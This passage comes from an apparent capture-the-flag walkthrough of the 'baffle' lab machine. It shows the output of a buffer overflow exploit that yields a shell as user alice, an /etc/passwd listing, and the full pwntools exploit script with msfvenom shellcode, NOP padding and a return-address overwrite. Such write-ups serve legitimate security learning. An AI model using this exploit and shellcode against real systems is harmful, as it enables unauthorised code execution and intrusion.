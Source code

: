 Now we have all info available to craft our exploit. When running the exploit the shellcode will be placed in the `to_write` variable and the return address is overwritten with the location of the variable and the shellcode is executed.

```
root@kali:~/baffle# ./alice.py
[*] Switching to interactive mode
$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

We are now dropped into `/` but we already have the `flag.txt` from this location.

By looking at `/etc/passwd` we can see that there are 4 users present on the system

```
vulnhub:x:1000:1000:vulnhub,,,:/home/vulnhub:/bin/bash
alice:x:1001:1001:Alice,,,:/home/alice:/bin/bash
bob:x:1002:1002:Bob,,,:/home/bob:/bin/bash
charlie:x:1003:1003:,,,:/home/charlie:/bin/bash
```

Code:
```
#!/usr/bin/env python2

from pwn import *

context(bits=64,
        os="linux",
        aslr=False,
        terminal=["tmux", "splitw", "-l", "45"])

if len(sys.argv) > 1:
    local = True
else:
    local = False

HOST = "192.168.56.2"
PORT = 6969

ADDR_TO_WRITE = 0x600de0
OFFSET = 542

def encode_payload(p):
    return "".join("\\x{:02x}".format(ord(c)) for c in p)

# msfvenom -p linux/x64/exec -v shell -f py CMD="/bin/bash"
shell =  ""
shell += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
shell += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
shell += "\x52\xe8\x0a\x00\x00\x00\x2f\x62\x69\x6e\x2f\x62\x61"
shell += "\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"

header  = ""
header += "\x02\x02"                   # request type
header += "A" * 5                      # junk
header += "\x00"                       # terminator
header += "B" * 6                      # junk

payload  = ""
payload += shell                        # shell
payload += "\x90" * (500-len(shell))    # shell padding
payload += "X" * (536 - len(payload))   # offset to trigger the overflow
payload += p64(ADDR_TO_WRITE)           # return address

final_payload = header + payload
```